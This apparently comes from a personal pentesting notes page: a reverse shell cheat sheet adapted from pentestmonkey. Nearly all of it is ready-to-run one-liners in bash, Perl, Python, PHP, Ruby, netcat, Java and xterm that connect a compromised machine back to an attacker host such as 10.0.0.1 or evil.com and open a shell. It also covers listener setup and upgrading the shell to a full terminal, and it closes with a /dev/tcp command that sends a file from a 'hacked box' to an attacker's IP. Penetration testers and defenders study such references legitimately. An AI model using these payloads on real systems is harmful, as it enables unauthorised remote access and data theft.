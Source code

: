 ```yaml
---
layout: memory
title: Benji's reverse shell cheat sheet
---
```


<p align="center">
<img width="600" src="/images/reverse-shell.png">
</p>

## Listener for a Reverse Shell

First at all start a listener on your machine

```bash
nc -lvnp <PORT e.g. 9001, 8080>
```

If you've tough luck and have to run you listener on a windows machine try this [mini_reverse_shell_listener.ps1](https://gist.github.com/BenjiTrapp/6a2c130746c8ed0034ded80317dbe8c7)

## Dropping a Reverse Shell

Source: [https://pentestmonkey.net/](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Alternatives for Bash shell:

```bash
exec /bin/bash 0&0 2>&0
```

Or:

```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or:

```bash
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

Variant without usage of additional tools:

```bash
# Run on your machine
nc -l -p 8080 -vvv

# Run on target machine
exec 5<>/dev/tcp/evil.com/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

 This technique comes handy in many situations and it leaves very small footprint on the targeted system.

Source: [gnucitizen.org](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more fateful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1
```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

#### Further Reading

Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html).  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a [reverse shell written in gawk over here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-122387).  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentester might want to use for reverse shells.

## Upgrading your Reverse Shell

`python -c'import pty; pty.spawn("/bin/bash")'`

Background Session with `ctrl + z`

`stty raw -echo`

`stty -a`

get row & col

`stty rows X columns Y`

Set rows and cols

Foreground Session again

`fg #jobnumber`

`export XTERM=xterm-color`

enable clear

## Send file from machine to listener

Hacked box/machine:

```bash
cat <FILE> > /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT>
```

Your machine:

```bash
ncat -lvnp <ATTACKER_PORT> > <FILE>
```
